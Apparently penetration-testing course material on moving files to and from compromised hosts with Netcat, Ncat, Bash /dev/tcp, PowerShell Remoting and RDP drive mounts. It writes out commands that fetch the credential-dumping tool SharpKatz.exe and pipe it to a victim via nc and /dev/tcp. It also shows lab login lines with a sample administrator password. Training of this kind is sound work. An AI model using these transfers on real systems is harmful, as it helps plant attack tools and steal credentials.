 # Netcat
Netcat (often abbreviated to nc) is a computer networking utility for reading from and writing to network connections using TCP or UDP, which means that we can use it for file transfer operations.

The original Netcat was released by Hobbit in 1995, but it hasn't been maintained despite its popularity. The flexibility and usefulness of this tool prompted the Nmap Project to produce Ncat, a modern reimplementation that supports SSL, IPv6, SOCKS and HTTP proxies, connection brokering, and more.

The target or attacking machine can be used to initiate the connection, which is helpful if a firewall prevents access to the target. Let's create an example and transfer a tool to our target.

In this example, we'll transfer SharpKatz.exe from our Pwnbox onto the compromised machine. We'll do it using two methods. Let's work through the first one.

We'll first start Netcat (nc) on the compromised machine, listening with option -l, selecting the port to listen with the option -p 8000, and redirect the stdout using a single greater-than > followed by the filename, SharpKatz.exe.


`nc -l -p 8000 > SharpKatz.exe`

If the compromised machine is using Ncat, we'll need to specify --recv-only to close the connection once the file transfer is finished.

`ncat -l -p 8000 --recv-only > SharpKatz.exe`

From our attack host, we'll connect to the compromised machine on port 8000 using Netcat and send the file SharpKatz.exe as input to Netcat. The option -q 0 will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed.

- `wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe`
- `nc -q 0 192.168.49.128 8000 < SharpKatz.exe`

If we use Ncat in our attack host, we can use --send-only instead of -q. --send-only in both connect and listen modes causes Ncat to quit when its input runs out. Usually, it will not stop until the network connection is closed because the remote side may still send something, but in the case of --send-only, there's no reason to receive anything more.

`ncat --send-only 192.168.49.128 8000 < SharpKatz.exe`

Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. This method is useful in scenarios where there's a firewall blocking inbound connections. Let's listen on port 443 on our Pwnbox and send the file SharpKatz.exe as input to Netcat.

Attack host:
`sudo nc -l -p 443 -q 0 < SharpKatz.exe`

Compromised machine:
`nc 192.168.49.128 443 > SharpKatz.exe`


If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file /dev/TCP/.
Writing to this particular file makes Bash open a TCP connection to host:port, and this feature may be used for file transfers.

Attacker machine:
`sudo nc -l -p 443 -q 0 < SharpKatz.exe`

Compromised machine:
`cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe`

# PowerShell Session File Transfer

We already talk about doing file transfers with PowerShell, but there may be scenarios where HTTP, HTTPS, or SMB are unavailable. If that's the case, we can use PowerShell Remoting, aka WinRM, to perform file transfer operations.

PowerShell Remoting allows us to execute scripts or commands on a remote computer using PowerShell sessions. Administrators commonly use PowerShell Remoting to manage remote computers in a network, and we can also use it for file transfer operations. By default, enabling PowerShell remoting creates both an HTTP and an HTTPS listener. The listeners run on default ports TCP/5985 for HTTP and TCP/5986 for HTTPS.

To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the Remote Management Users group, or have explicit permissions for PowerShell Remoting in the session configuration. Let's create an example and transfer a file from DC01 to DATABASE01 and vice versa.

We have a session as Administrator in DC01, the user has administrative rights on DATABASE01, and PowerShell Remoting is enabled. Let's use Test-NetConnection to confirm we can connect to WinRM.

## Create a PowerShell Remoting Session to DATABASE01
`$Session = New-PSSession -ComputerName DATABASE01`

We can use the Copy-Item cmdlet to copy a file from our local machine DC01 to the DATABASE01 session we have $Session or vice versa.
- `Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\`
- `Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session`

 # RDP
RDP (Remote Desktop Protocol) is commonly used in Windows networks for remote access. We can transfer files using RDP by copying and pasting. We can right-click and copy a file from the Windows machine we connect to and paste it into the RDP session.

If we are connected from Linux, we can use xfreerdp or rdesktop. At the time of writing, xfreerdp and rdesktop allow copy from our target machine to the RDP session, but there may be scenarios where this may not work as expected.

As an alternative to copy and paste, we can mount a local resource on the target RDP server. rdesktop or xfreerdp can be used to expose a local folder in the remote RDP session.

## Mounting a Linux Folder Using rdesktop
`rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'`

## Mounting a Linux Folder Using xfreerdp
`xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer`

To access the directory, we can connect to \\tsclient\, allowing us to transfer files to and from the RDP session. Alternatively, from Windows, the native mstsc.exe remote desktop client can be used.

